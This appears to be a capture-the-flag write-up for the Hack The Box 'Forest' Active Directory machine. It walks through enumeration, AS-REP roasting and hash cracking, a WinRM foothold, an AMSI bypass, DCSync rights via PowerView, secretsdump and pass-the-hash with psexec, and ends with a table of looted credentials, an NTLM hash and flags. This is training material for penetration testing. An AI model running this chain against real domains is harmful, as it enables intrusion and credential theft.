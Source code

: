 # Enumeration

## Nmap
Scan open ports
```bash
nmap -sC -sV -A -oA nmap/scan.txt 10.129.211.144

Nmap scan report for 10.129.211.144
Host is up (0.0081s latency).                
Not shown: 989 closed tcp ports (reset)                 
PORT     STATE SERVICE      VERSION            
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-25 20:24:35Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    

Network Distance: 2 hops                                                                                                                                                                                                                              [12/239]
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-05-26T13:51:47-07:00
| smb2-time: 
|   date: 2025-05-26T20:51:46
|_  start_date: 2025-05-26T20:39:23
| smb2-security-mode: 
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m49s, deviation: 4h02m30s, median: 6m48s

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   7.13 ms 10.10.14.1
2   9.51 ms 10.129.95.210


```
- The domain is `htb.local` 
- The [FQND](https://en.wikipedia.org/wiki/Fully_qualified_domain_name) is `FOREST.htb.local`
## Ladapsearch Users Enum
Check if the LDAP service allow anonymous authentication
```bash
ldapsearch -H LDAP://10.129.211.144 -x -s base namingcontexts
```

![[Pasted image 20250525232229.png]]

The `namingcontexts` attribute lists the **base Distinguished Name (DNs)** of all **naming contexts** that the LDAP server knows about.

Think of naming context as **entry point or "root containers"** in the LDAP directory tree where different categories of data are stored. Each one represents different **subtree** of the directory

So in now we can query the context of `htb` and  `local` **root containers**.

### Create a users list with ldapsearch
We can retrieve a users list with this query and save that in a file
```bash
ldapsearch -H LDAP://10.129.211.144 -x -b 'DC=htb,DC=local' '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users_list
```

- `-x`: this flags enable anonymous authentication
- `-b`: this flags specified the "root containers" where preform the LDAP query.

`awk '{print $2}'` means take only the second column of the output.

Clear the list of the useless name like name machine default users etc..

Clear user list
![[Pasted image 20250525234215.png]]


## Rpcclient 
I try to enumerate the users with anonymous authentication of smb protocol, in this case i use `rpcclient`:

```bash
rpcclient -U "" -N 10.129.211.144
```

enum the domain's users with `enumdomusers`
![[Pasted image 20250526014820.png]]

i founded a new users `svc-alfresco`... if i query the user rid i notice is a member of `Domain Users` and `Service Accounts`... this make me think that it's a **service users**.
![[Pasted image 20250526015139.png]]

Infect if i run again a LDAP query but without specify the **objectClass** and search "svc" keyword i see this is a **Service Account**.

```bash
ldapsearch -H LDAP://10.129.211.144 -x -b "DC=htb,DC=local" | grep -i "svc"
```

![[Pasted image 20250526015927.png]]

## Foothold
Searching on internet i find the [official documentation](https://docs.alfresco.com/process-services/latest/config/authenticate/#kerberos-and-active-directory) where there is specify "**Do not require Kerberos preauthentication**" enable in the Configuration steps
![[Pasted image 20250526022339.png]]
This means we can utilize the [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) script to ask **TGS** ticket for users that have **Do not require Kerberos preauthentication** set.

```bash
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.129.211.144 -no-pass -format hashcat
```

![[Pasted image 20250526023233.png]]

Now i have the TGS i can try to crack that offline using hashcat and module `18200`
```bash
hashcat -m 18200 alfresco_TGS /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250526023704.png]]

Try to connect on the machine with this credential.. i try with `smb` protocol the credential are correct but the machine is not pwned so i try check if the `winrm` port (5985 5986) are opens on the target 
```nmap
nmap -p 5985 5986 10.129.211.144
```

![[Pasted image 20250526024319.png]]
The 5985 is open this mean we can try to connect with `winrm` protocol using `crackmapexec`
```bash
crackmapexec winrm 10.129.211.144 -u 'svc-alfresco' -p 's3rvice' -X 'whoami /priv'
```

![[Pasted image 20250526024505.png]]

connect to the host using `evil-winrm`
```bash
evil-winrm  -u svc-alfresco -p s3rvice --ip 10.129.211.144
```

## Privilege Escalation

Run **bloodhunt** to view a map of the domain and look for a privilege escalation path.

```bash
bloodhount-python -d htb.local -u svc-alfresco -p s3rvice
```

Search for the `sv-alfresco` user and mark it as **owned**. We cans see the user is a member of `Account Operator gorup` and according with [microsoft documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) the members of this group are allowed to create and modify users and add them to non-protected groups.

![[Pasted image 20250528232042.png]]


Click on `Quries` and select `Shorest Path to Hig Value targets`.

![[Pasted image 20250528231428.png]]
Go back to the WinRM shell and add a new user to` Exchange Windows Permissions` as well as
the `Remote Management Users` (to have the winrm privilege) group.
```bash
net user gabbo abc123! /add /domain
net gorup "Exchange Windows Permissions" gabbo /add
net localgroup "Remote Management Users" gabbo /add
```

Now through the evil-winrm session set the `Bypass-4MSI` and upload the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).

```bash
PS C:\Users\svc-alfresco\Documents> menu
<SINP>
PS C:\Users\svc-alfresco\Documents> Bypass-4MSI
PS C:\Users\svc-alfresco\Documents> upload /home/htb/powerview.ps1
```

- `Bypass-4MSI`: this command is used to evade defender before importing the script.

Next we can create use the `Add-ObjectACL` with gabbo's credentials, and give him **DCSync** rights.

```bash
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-obejct system.management.automation.pscredential('htb\gabbo',$pass)
Add-ObjectACL -PrincipalIdentity gabbo -Credential $cred -Rights DCSync
```

Once do that use the `secretsdump` script to reveal the `NTLM` hashes for all domain users.

```bash
secretsdump.py htb/gabbo@10.129.211.144
```

Now we can use `psexec.py` script or the module on `msfconsole` and login use `hash pass through` technique.

```bash 
psexec.py administrator@10.129.211.144 -hahses aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```


## Loot

| User                    | Password                                                          | Notes        |
| ----------------------- | ----------------------------------------------------------------- | ------------ |
| svc-alfresco@HTB.LOCAL  | s3rvice                                                           | Service User |
| htb.local\Administrator | aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 |              |


| Flag name | hash                             |
| --------- | -------------------------------- |
| user.txt  | 74a10803767e6a4e8c497303ec47ac14 |
| root.txt  | 281c218ca00afda259de29fe09266655 |
